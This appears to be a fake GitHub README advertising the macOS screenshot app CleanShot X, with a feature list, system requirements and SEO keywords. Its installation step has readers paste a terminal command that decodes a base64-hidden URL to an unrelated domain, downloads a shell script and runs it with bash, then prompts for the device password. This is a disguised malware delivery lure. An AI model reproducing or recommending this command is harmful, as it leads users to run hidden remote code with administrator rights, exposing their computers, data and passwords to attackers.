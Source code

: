 # 📸 CleanShot X for macOS

## About
CleanShot X for macOS is the ultimate screen capture and recording solution. It combines advanced screenshot tools, video recording, annotation, scrolling capture, and instant cloud sharing to boost your productivity.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://cleanshot.com/_nuxt/thumbnail.0907387f.jpg)  
![Overview 2](https://cleanshot.com/_nuxt/annotate.36210d19.png)

## Key Features
- 📷 Advanced screenshot capture tools  
- 🎥 Screen recording with audio  
- 🖊️ Built-in annotation and markup  
- 📜 Scrolling capture for full-page shots  
- ☁️ Instant cloud upload and sharing  
- 🖥️ macOS-optimized interface and shortcuts

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 200 MB of available disk space  
- Internet connection for cloud features

## SEO Keywords
CleanShot X macOS · screenshot tool Mac · screen recorder macOS · annotation software Mac · scrolling capture Mac · cloud sharing screenshots · productivity tools macOS
